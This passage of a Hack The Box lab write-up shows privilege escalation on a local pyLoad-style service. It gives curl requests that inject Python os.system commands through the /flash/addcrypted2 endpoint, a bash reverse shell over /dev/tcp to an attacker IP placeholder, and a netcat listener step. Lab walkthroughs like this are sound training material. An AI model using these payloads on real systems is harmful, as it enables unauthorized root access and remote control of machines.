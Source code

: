 Now we have to provide permissions to all the users to read, write and execute, since the owner of the file is root. To do this use the following exploit:

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"chmod%20777%20/tmp/rev.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:5000/flash/addcrypted2'

// Commands are URL encoded
```

After executing the above command, if check the file permissions of the `[rev.sh](http://rev.sh)` file, you can see that all users have all permissions.

<figure><img src="../../.gitbook/assets/Untitled 25 (1).png" alt=""><figcaption></figcaption></figure>

Now we can edit the `[rev.sh](http://rev.sh)` file. Add the following content to the `rev.sh` file to create a reverse shell.

```bash
#! /bin/bash
bash -i >& /dev/tcp/<HTB_tunnel_IP>/9002 0>&1
```

<figure><img src="../../.gitbook/assets/Untitled 26 (1).png" alt=""><figcaption></figcaption></figure>

Don’t try to execute the reverse shell from the target machine, as you will get the reverse shell only with the privileges of `sau` , as the `rev.sh` file is executed by that user.

Before executing the reverse shell, start a `netcat` listener on the attacking machine.

<figure><img src="../../.gitbook/assets/Untitled 27 (1).png" alt=""><figcaption></figcaption></figure>

Now run the following command to execute the reverse shell as root:

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"/tmp/rev.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:5000/flash/addcrypted2'

// Commands are URL encoded
```
